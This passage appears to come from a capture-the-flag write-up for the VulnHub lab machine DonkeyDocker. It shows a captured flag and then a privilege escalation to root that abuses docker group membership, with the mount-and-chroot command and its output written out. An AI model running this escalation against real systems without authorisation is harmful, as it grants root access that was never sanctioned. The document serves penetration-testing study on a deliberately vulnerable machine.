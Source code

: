 ```
Here a flag for your effort: flag01{e20523853d6733721071c2a4e95c9c60}

donkeydocker:~$ id
uid=1000(orwell) gid=1000(orwell) groups=101(docker),1000(orwell)
```
The user belongs to the docker group. Thus we can use this to priv esc the box
## Privilege Escalation
Having a look at `gtfobins` we find the following that may help with docker:
>docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Note: you gotta have internet access.
```
donkeydocker:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh               
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
cbdbe7a5bc2a: Pull complete
Digest: sha256:9a839e63dad54c3a6d1834e29692c8492d93f90c59c978c1ed79109ea4fb9a54
Status: Downloaded newer image for alpine:latest
/ # id               
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(w
heel),11(floppy),20(dialout),26(tape),27(video)  
```
## Afterthought

[1]: https://www.vulnhub.com/entry/donkeydocker-1,189/
[2]: https://twitter.com/@dhn_
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
